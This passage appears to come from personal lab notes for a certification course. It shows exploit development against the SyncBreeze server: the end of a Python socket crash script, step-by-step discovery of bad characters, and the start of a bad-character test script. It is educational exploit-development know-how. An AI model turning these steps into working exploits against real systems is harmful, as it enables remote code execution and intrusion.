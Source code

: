 ```python
    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()

```

### Verify the crash, then right-click the ESP and 'Follow in Dump'
![4552d24cdd837c4c6ae74ccaea8238a3.png](:/4cc35c41d6904a7096b6ea39e4769a2a)

We already know a bad character is 0x00. From this output, we see that 0x0a is another bad char
![902f1ae511da1c6487be031a110dd2bd.png](:/c047abfaa903497e8657f01b1d1a9655)

### Take out 0x0a from the script, and run again. The next bad char is 0x0d
![e61c5a5dd21532d54f21b35e29ae391e.png](:/698117ae08d744f3b08b58ce3d10d31a)

### Take out 0x0d, and run again. The next bad char is 0x25.
![67507f55d12b9310eeb06a9a0a0c91b9.png](:/2fe5ab7456c947018cff3bf26f7cfa1e)

### Take out 0x25, and run again. We see the next bad char is 0x26
![8ea7b84a6e39435a229fbf85d9aae71f.png](:/6a1a9d1e551b44ffbce75463dffd57e4)

### Take out 0x26, and run again. We see the next bad char is 0x2b
![4890a46e4d744853ed0b0455d964c0d0.png](:/c8c15129d4d743a4bf90c649a22459cf)

### Take out 0x2b, and run again. We see the next bad char is 0x3d
![b718b658873146d055208f0c06e3ebb8.png](:/5447860041b346fcb616dfd0619a721e)

### Take out 0x3d, and run again. We see it run to FF without skipping any characters. There are no more bad chars!
![c9ffc58c5e3c2c6bb24ac419565f8e04.png](:/b386d7096791453083fdb4b17bd906fd)

### Here is the script without any bad chars
The bad chars are: **x00\x0a\x0d\x25\x26\x2b\x3d**
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 7_check_bad_chars.py 
#!/usr/bin/python
import socket
import sys

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x27\x28\x29\x2a\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
```